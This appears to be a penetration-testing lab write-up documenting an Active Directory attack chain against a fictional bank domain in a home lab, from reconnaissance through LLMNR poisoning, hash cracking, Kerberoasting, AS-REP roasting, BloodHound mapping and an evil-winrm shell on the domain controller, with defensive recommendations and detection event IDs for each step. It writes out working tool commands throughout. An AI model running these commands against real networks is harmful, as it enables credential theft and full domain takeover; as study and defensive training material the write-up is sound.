









# Phase 9 — Active Directory Attack Workflow
## Target: AcrossStatesBank — ASBank.com Domain
### AegisPro CyberShield TX — Lab Assessment Practice

---

## Objective

Execute a structured Active Directory attack simulation against the AcrossStatesBank lab environment, demonstrating the complete attack chain from unauthenticated network reconnaissance through full domain compromise. This phase covers the most common AD attack techniques encountered in real-world small business environments and documents both the offensive methodology and the defensive controls that would detect or prevent each attack.

> **Disclaimer:** All testing performed exclusively against the AcrossStatesBank fictional AD environment on an isolated lab network (10.0.1.0/24). No unauthorized systems were targeted. All activity performed within the AegisPro CyberShield TX home lab environment.

---

## Environment

| Component | Details |
|-----------|---------|
| Attacker | Kali Linux 2025.2 (AegisPro-Kali) — 10.0.1.10 |
| Domain Controller | ASBankDC1.ASBank.com — 10.0.1.201 (Windows Server 2019) |
| Domain | ASBank.com |
| Workstations | ASB-CB-WS01, ASB-PB-WS02 (Windows 10 Pro) |
| Tools used | Nmap, enum4linux-ng, Responder, Hashcat, Impacket, BloodHound CE, evil-winrm |
| Assessment date | May 2026 |

---

## Attack Chain Overview

```
Step 1 — AD Reconnaissance
         └── Identify domain controllers, open ports, AD services

Step 2 — Unauthenticated Enumeration
         └── Extract domain info without credentials via LDAP/SMB

Step 3 — LLMNR/NBT-NS Poisoning (Responder)
         └── Capture NTLMv2 hash from domain user

Step 4 — Hash Cracking (Hashcat)
         └── Crack NTLMv2 hash offline → obtain plaintext credentials

Step 5 — Kerberoasting
         └── Extract TGS tickets for service accounts → crack offline

Step 6 — AS-REP Roasting
         └── Extract AS-REP hash for pre-auth disabled account → crack offline

Step 7 — BloodHound Enumeration
         └── Map AD relationships → identify attack paths to Domain Admin

Step 8 — Lateral Movement
         └── evil-winrm shell on DC01 as Domain Admin → full domain compromise
```

---

## Step 1 — AD Reconnaissance

**Objective:** Identify the domain controller, confirm AD services are running, and enumerate open ports before any authenticated access.

```bash
# Host discovery — identify all live hosts
nmap -sn 10.0.1.0/24

# Full service scan against DC01
nmap -sV -sC -p 53,88,135,139,389,445,464,636,3268,3269 10.0.1.201
```

### Key ports identified on DC01 (10.0.1.201)

| Port | Service | Significance |
|------|---------|-------------|
| 53 | DNS | Domain controller confirmed — DC serves DNS |
| 88 | Kerberos | Authentication service — confirms AD domain |
| 135 | RPC | Remote procedure call — AD management |
| 139/445 | SMB | File sharing and AD authentication |
| 389 | LDAP | Directory services — user/group enumeration |
| 636 | LDAPS | LDAP over SSL |
| 3268/3269 | Global Catalog | Forest-wide directory queries |

The open port profile is a definitive fingerprint of a Windows Active Directory domain controller. Any attacker performing reconnaissance on a network would immediately identify this host as the highest-value target.



---

## Step 2 — Unauthenticated Enumeration

**Objective:** Extract domain information without any credentials — demonstrating what an attacker can learn before obtaining a single username or password.

```bash
# SMB and AD enumeration without credentials
enum4linux-ng -A 10.0.1.201

# Anonymous LDAP query — get domain naming context
ldapsearch -x -H ldap://10.0.1.201 -s base namingcontexts
```

### Information gathered without credentials

- Domain name: `ASBank.com`
- Domain SID confirmed
- Workgroup/domain membership confirmed
- SMB signing status
- Operating system version (Windows Server 2019)

**Why this matters:** Default Windows and AD configurations expose significant information to unauthenticated users. An attacker doesn't need a single credential to confirm the domain name, identify the DC, and begin building a target list.

**Defensive recommendation:** Enable SMB signing on all domain controllers and workstations. Restrict anonymous LDAP access via AD security policies.

---

## Step 3 — LLMNR/NBT-NS Poisoning with Responder

**Objective:** Capture NTLMv2 authentication hashes by exploiting Windows' default name resolution fallback behavior.

### Background

When a Windows host attempts to resolve a hostname via DNS and the DNS query fails, Windows falls back to LLMNR (Link-Local Multicast Name Resolution) and NBT-NS (NetBIOS Name Service) — broadcasting the query to the entire local network. Responder listens for these broadcasts and responds, impersonating the requested host. When the victim connects to Responder's fake service, Windows automatically sends NTLMv2 authentication credentials.

This attack requires no exploitation of any vulnerability — it abuses a default Windows behavior that has existed for decades.

```bash
# Start Responder on the lab LAN interface
sudo responder -I eth0 -wv
```

Responder listens passively on the network. When a domain workstation attempts to access a non-existent share or resource, it broadcasts via LLMNR — Responder intercepts and captures the NTLMv2 hash.

### Result

NTLMv2 hash captured successfully from a domain user account.



**Why this matters:** This attack is entirely passive from the victim's perspective. The user never clicks a malicious link or opens a suspicious file — simply having a Windows machine on the same network as Responder is sufficient for credential capture.

**Defensive recommendation:** Disable LLMNR and NBT-NS via Group Policy:
- Computer Configuration → Administrative Templates → Network → DNS Client → Turn off multicast name resolution → **Enabled**
- Computer Configuration → Administrative Templates → Network → Lanman Workstation → Turn off Microsoft TCP/IP NetBIOS Helper → **Disabled**

---

## Step 4 — Hash Cracking (NTLMv2)

**Objective:** Crack the captured NTLMv2 hash offline to obtain the plaintext password.

```bash
# Crack NTLMv2 hash — mode 5600
hashcat -m 5600 /home/APCSAdmin/Desktop/captured-hash \
    /usr/share/wordlists/rockyou.txt --force
```

### Result

NTLMv2 hash cracked successfully — plaintext password recovered.



**Key point about offline cracking:** Once the hash is captured, cracking occurs entirely on the attacker's machine. The domain controller has no visibility into this activity — there are no authentication attempts, no failed logins, no lockouts. The victim account is never touched during the cracking process.

**Defensive recommendation:** Enforce strong password policies that resist dictionary attacks. Implement MFA for all domain accounts. The NIST SP 800-63B guidance recommends checking passwords against known breached password lists at time of creation to prevent use of easily-crackable passwords.

---

## Step 5 — Kerberoasting

**Objective:** Extract Kerberos TGS tickets for service accounts with registered SPNs and crack them offline to recover service account passwords.

### Background

Any authenticated domain user can request a Kerberos service ticket (TGS) for any service principal name (SPN) registered in the domain. The TGS ticket is encrypted with the service account's password hash. Because any domain user can request these tickets, an attacker with any valid credential can extract them without touching the service account itself — then crack the encryption offline.

```bash
# Enumerate Kerberoastable accounts
impacket-GetUserSPNs ASBank.com/j.mitchell:Welcome1@2024 \
    -dc-ip 10.0.1.201

# Extract TGS hashes for offline cracking
impacket-GetUserSPNs ASBank.com/j.mitchell:Welcome1@2024 \
    -dc-ip 10.0.1.201 \
    -request \
    -outputfile /home/APCSAdmin/Desktop/kerberoast-hashes.txt
```

### Kerberoastable accounts identified

| Account | SPN | Password last set |
|---------|-----|------------------|
| svc_sql | MSSQLSvc/sqlserver.ASBank.com:1433 | 2026-05-20 |
| svc_sql | MSSQLSvc/sqlserver:1433 | 2026-05-20 |
| svc_backup | BACKUPAGENT/backupserver.ASBank.com | 2026-05-20 |


### Cracking the TGS hashes

```bash
# Crack Kerberos TGS-REP hashes — mode 13100
hashcat -m 13100 /home/APCSAdmin/Desktop/kerberoast-hashes.txt \
    /home/APCSAdmin/Desktop/Test_wordlist --force

# View cracked results from potfile
hashcat -m 13100 /home/APCSAdmin/Desktop/kerberoast-hashes.txt --show
```

### Result

Both service account hashes cracked successfully — plaintext passwords recovered for svc_sql and svc_backup.



**Why this matters:** Service accounts frequently have weak passwords, never expire, and are often over-privileged. A cracked service account password can provide attackers with access to the services those accounts are authorized to use — databases, backup systems, and other critical infrastructure.

**Defensive recommendations:**
- Use Group Managed Service Accounts (gMSA) — automatically rotated 120-character passwords that cannot be cracked
- Where gMSA is not possible, set service account passwords to 25+ random characters managed by a PAM solution
- Limit service account privileges to only what is required
- Monitor for 4769 (Kerberos service ticket requested) events with RC4 encryption — an indicator of Kerberoasting

---

## Step 6 — AS-REP Roasting

**Objective:** Extract Kerberos AS-REP hashes for accounts with pre-authentication disabled and crack them offline.

### Background

Kerberos pre-authentication requires a user to prove they know their password before the KDC issues a ticket granting ticket (TGT). When pre-authentication is disabled on an account, the KDC will return an AS-REP encrypted with the account's password hash to anyone who requests it — no credentials required. This hash can then be cracked offline.

```bash
# Target svc_backup — pre-authentication disabled
impacket-GetNPUsers ASBank.com/svc_backup \
    -dc-ip 10.0.1.201 \
    -no-pass
```

### Result

AS-REP hash returned for svc_backup without any authentication.


### Cracking the AS-REP hash

```bash
# Crack AS-REP hash — mode 18200
hashcat -m 18200 /home/APCSAdmin/Desktop/AS-REP-Hash \
    /home/APCSAdmin/Desktop/Test_wordlist --force
```

### Result

svc_backup AS-REP hash cracked successfully.



**Why this matters:** AS-REP Roasting requires zero credentials — any attacker with network access to the domain controller can extract and attempt to crack hashes for any account with pre-authentication disabled.

**Defensive recommendation:** Never disable Kerberos pre-authentication on user or service accounts unless absolutely required by a legacy application. Audit regularly:

```powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} -Properties DoesNotRequirePreAuth
```

---

## Step 7 — BloodHound Enumeration

**Objective:** Map Active Directory relationships and identify attack paths to Domain Admin using BloodHound Community Edition.

### Data collection

```bash
# Collect AD data using bloodhound-python
bloodhound-python -u m.webb -p 'Welcome1@2024' \
    -d ASBank.com \
    -dc 10.0.1.201 \
    -c All --zip
```

Data imported into BloodHound CE via Quick Upload.

### Key findings

**Domain Admins group members confirmed:**

| Account | Type | Notes |
|---------|------|-------|
| ADMINISTRATOR@ASBANK.COM | Built-in | Default domain administrator |
| NICK.TURNER@ASBANK.COM | User | Lab operator account |
| M.WEBB@ASBANK.COM | User | Target DA account — SAMAccountName: m.webb |



**Notable findings from BloodHound object properties:**

- `Password Never Expires: TRUE` on m.webb — passwords that never expire increase the window of exposure if compromised
- `Admin Count: TRUE` — confirms DA group membership
- `Tier Zero: TRUE` — BloodHound classifies DA accounts as the highest-value targets in the domain

**Kerberoastable accounts (Cypher query):**

```
MATCH (u:User {hasspn:true}) RETURN u
```

Returned svc_sql and svc_backup — confirming BloodHound's visibility into the same attack surface identified manually via Impacket.

**AS-REP Roastable accounts (Cypher query):**

```
MATCH (u:User {dontreqpreauth:true}) RETURN u
```

Returned svc_backup — confirming the pre-authentication misconfiguration is visible to any authenticated user who runs BloodHound collection.





**Why BloodHound matters:** BloodHound visualizes complex AD relationships that are invisible in standard AD management tools. Attack paths that would take an attacker hours to discover manually are identified in seconds. Defenders use the same tool to find and remediate privilege escalation paths before attackers exploit them.

---

## Step 8 — Lateral Movement (evil-winrm)

**Objective:** Use Domain Admin credentials obtained through the attack chain to establish an interactive shell on DC01, demonstrating full domain compromise.

### Enabling WinRM on DC01

WinRM (Windows Remote Management) was enabled on DC01 to allow remote PowerShell connections:

```powershell
# Run on DC01 as Administrator
Enable-PSRemoting -Force
```

### Establishing the shell

```bash
# Connect to DC01 as Domain Admin m.webb
evil-winrm -i 10.0.1.201 -u m.webb -p 'Welcome1@2024'
```

### Shell confirmed — commands executed on DC01

```powershell
# Confirm identity
whoami
# Result: asbank\m.webb

# Confirm hostname
hostname
# Result: ASBankDC1

# Confirm domain admin privileges
whoami /groups

# List all domain users
net user /domain

# List domain admin members
net group "Domain Admins" /domain

# View all user profiles on DC01
dir C:\Users
```



### Full domain compromise confirmed

From this shell an attacker has:

- **Complete control of the domain controller** — the authoritative source for all authentication in the domain
- **Access to NTDS.dit** — the Active Directory database containing every domain user's password hash
- **Ability to create, modify, or delete any domain account** including Domain Admins
- **Access to all domain-joined systems** using Domain Admin credentials
- **Ability to establish persistence** via new DA accounts, scheduled tasks, or GPO modifications

### Secretsdump — attempted, deferred

Secretsdump (impacket) was attempted to dump the NTDS.dit database remotely:

```bash
impacket-secretsdump ASBank.com/m.webb:Welcome1@2024 -dc-ip 10.0.1.201
```

The attempt returned a connection error on port 445 despite SMB being confirmed open. This is attributed to the Remote Registry service not being enabled on DC01 — a prerequisite for remote NTDS.dit dumping via this method. The evil-winrm shell provides an equivalent demonstration of full domain access for lab documentation purposes.

---

## Findings Summary

| Attack | Target | Result | MITRE ATT&CK |
|--------|--------|--------|--------------|
| LLMNR Poisoning | Domain workstation | NTLMv2 hash captured | T1557.001 |
| NTLMv2 Cracking | Captured hash | Plaintext password recovered | T1110.002 |
| Kerberoasting | svc_sql, svc_backup | TGS hashes cracked | T1558.003 |
| AS-REP Roasting | svc_backup | AS-REP hash cracked | T1558.004 |
| BloodHound Enumeration | ASBank.com domain | DA members, attack paths mapped | T1069.002 |
| Lateral Movement | DC01 (10.0.1.201) | Interactive DA shell obtained | T1021.006 |

---

## Defensive Recommendations

| Finding | Recommendation | Priority |
|---------|---------------|---------|
| LLMNR/NBT-NS enabled | Disable via GPO | High |
| Weak service account passwords | Implement gMSA or PAM solution | High |
| Pre-auth disabled on svc_backup | Enable Kerberos pre-authentication | High |
| Password never expires on m.webb | Enforce password expiration policy | Medium |
| WinRM enabled on DC | Restrict WinRM access to admin hosts only | Medium |
| No MFA on domain accounts | Implement MFA via Duo or Entra ID | High |
| BloodHound paths to DA | Review and remediate ACL misconfigurations | Medium |

---

## Detection Engineering — Event IDs to Monitor

| Event ID | Description | Attack detected |
|----------|-------------|----------------|
| 4648 | Logon with explicit credentials | Lateral movement |
| 4768 | Kerberos TGT requested | Initial authentication |
| 4769 | Kerberos service ticket requested | Kerberoasting (RC4 encryption flag) |
| 4771 | Kerberos pre-auth failed | AS-REP Roasting attempts |
| 4624 | Successful logon | Lateral movement — new logon type |
| 4625 | Failed logon | Brute force / credential stuffing |
| 4776 | NTLM authentication | Responder/relay attacks |
| 7045 | New service installed | psexec / persistence |

---

## Lessons Learned

> *Internal observations for professional development — not for client delivery.*

- The complete attack chain from zero credentials to DA shell demonstrates how interconnected AD misconfigurations are — each step builds on the previous one. Fixing any single control breaks the chain.
- LLMNR/NBT-NS poisoning is the most impactful finding for small business environments — it requires no exploitation, no phishing, and no user interaction. Simply being on the same network is sufficient.
- BloodHound CE (`bloodhound-start`) replaces the legacy `bloodhound` command — the CE version runs as a web application at `127.0.0.1:8080` with its own authentication separate from Neo4j.
- evil-winrm provides the most stable interactive shell for Windows targets — more reliable than psexec or smbexec for output handling.
- The zsh `!` history expansion issue affects any password containing `!` — always use single quotes when passing passwords containing special characters in zsh.
- Secretsdump requires Remote Registry service running on the target — worth documenting as a prerequisite for future engagements.

---

## CISSP Domain Alignment

| Domain | Activities in this phase |
|--------|-------------------------|
| Domain 1 — Security & Risk Management | Attack chain documentation, risk identification, defensive prioritization |
| Domain 5 — Identity & Access Management | Kerberos architecture, AD privilege model, service account security |
| Domain 6 — Security Assessment & Testing | AD attack simulation, credential assessment, privilege escalation testing |
| Domain 7 — Security Operations | Detection engineering, event ID mapping, MITRE ATT&CK alignment |

---

## Screenshots Index

| Filename | Content |
|----------|---------|
| `ad-recon-nmap.png` | Nmap service scan showing AD port profile on DC01 |
| `responder-capture.png` | Responder output showing captured NTLMv2 hash |
| `hashcat-ntlmv2-cracked.png` | Hashcat mode 5600 cracked NTLMv2 output |
| `kerberoastable-accounts.png` | impacket-GetUserSPNs showing svc_sql and svc_backup |
| `hashcat-kerberoast-cracked.png` | Hashcat mode 13100 cracked TGS hashes |
| `asrep-hash-captured.png` | GetNPUsers output showing svc_backup AS-REP hash |
| `hashcat-asrep-cracked.png` | Hashcat mode 18200 cracked AS-REP hash |
| `bloodhound-domain-admins.png` | BloodHound Domain Admins group members |
| `bloodhound-kerberoastable.png` | BloodHound Cypher query — Kerberoastable accounts |
| `bloodhound-mwebb-node.png` | BloodHound m.webb node showing DA properties |
| `lateral-movement-shell.png` | evil-winrm shell on DC01 as asbank\m.webb |

---

*Previous: [Phase 8 — Firewall Rule Testing](./phase-8-firewall-rule-testing.md)*
*Next: [Phase 10 — Documentation & Screenshot Collection](./phase-10-documentation.md)*

---

*AegisPro CyberShield TX — Phase 9 Lab Documentation — May 2026*
*Lead Assessor: Nicholas Turner, CISSP*
